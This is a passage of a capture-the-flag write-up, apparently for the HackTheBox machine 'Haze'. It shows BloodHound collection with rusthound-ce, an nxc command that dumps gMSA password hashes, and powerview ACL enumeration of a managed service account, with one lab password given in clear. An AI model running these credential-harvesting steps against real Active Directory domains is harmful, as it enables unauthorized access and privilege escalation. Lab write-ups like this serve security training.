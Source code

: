 Now let's analyze the domain using `bloodhound`, collect the data remotely using `rusthound-ce` or `bloodhound-ce-python`.

```bash
rusthound-ce -d haze.htb -u mark.adams -p '<password>' -c All -o mark_dump
```

Let `bloodhound` ingest the data.

![alt text](image.png)

`paul.taylor` doesn't have interesting groups or ACEs, but `mark.adams` has some interesting groups. He belongs to `Remote Management Users` and `GMSA_MANAGERS` groups. If you check the user home directory by spawning a shell using `evil-winrm`, you will see that there's no flag yet. <br>
Because of the `GMSA_MANAGERS` group, let's check for GMSA passwords.

```bash
> nxc ldap haze.htb -u 'mark.adams' -p '<password>' --gmsa
LDAP        10.10.11.61     389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb)
LDAPS       10.10.11.61     636    DC01             [+] haze.htb\mark.adams:<password>
LDAPS       10.10.11.61     636    DC01             [*] Getting GMSA Passwords
LDAPS       10.10.11.61     636    DC01             Account: Haze-IT-Backup$      NTLM:
```

It succeed finding an account that has GMSA password, but the NTLM hash in empty. It's so strange because from the `bloodhound` didn't show anything related to GMSA neither. <br>
So I will just try manual enumeration using [powerview.py](https://github.com/aniqfakhrul/powerview.py), you can also use [pywerview](https://github.com/the-useless-one/pywerview).

## GMSA Password

```bash
> powerview haze.htb/mark.adams:Ld@p_Auth_Sp1unk@2k24@10.10.11.61 --dc-ip 10.10.11.61
PV > Get-DomainObjectAcl -Identity haze-it-backup$ -SecurityIdentifier gmsa_managers
ObjectDN                    : CN=Haze-IT-Backup,CN=Managed Service Accounts,DC=haze,DC=htb
ObjectSID                   : S-1-5-21-323145914-28650650-2368316563-1111
ACEType                     : ACCESS_ALLOWED_OBJECT_ACE
ACEFlags                    : None
AccessMask                  : WriteProperty
ObjectAceFlags              : ACE_OBJECT_TYPE_PRESENT
ObjectAceType               : ms-DS-GroupMSAMembership
InheritanceType             : None
SecurityIdentifier          : HAZE\gMSA_Managers

ObjectDN                    : CN=Haze-IT-Backup,CN=Managed Service Accounts,DC=haze,DC=htb
ObjectSID                   : S-1-5-21-323145914-28650650-2368316563-1111
```